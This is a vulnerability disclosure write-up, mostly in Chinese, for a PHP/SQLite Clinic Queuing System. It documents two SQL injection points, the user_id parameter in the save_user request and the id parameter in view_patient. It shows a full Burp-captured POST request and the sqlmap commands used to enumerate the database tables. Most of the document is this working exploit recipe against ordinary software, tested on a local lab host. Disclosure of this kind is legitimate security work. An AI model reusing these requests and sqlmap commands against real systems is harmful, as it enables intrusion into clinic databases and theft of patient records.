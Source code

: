 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
注入点1
功能点：Users->Add New
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/1.png)
输入所有信息save并用burpsuite抓包
 
 
数据包
POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0
Sqlmap命令：py .\sqlmap.py -r .\1.txt -p user_id –tables
user_id参数存在sql注入，成功注入到tables
 

注入点2
点击 +Add Record，填写好信息，save
 
功能点：Patient List->view patient
点击view patient之前打开burpsuite工具进行抓包
 
 
把抓到的数据包放进sqlmap工具里。
漏洞url：http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23
Sqlmap命令：py .\sqlmap.py -r .\1.txt -p id --tables –batch
id为sql注入参数，成功注入到tebles
 
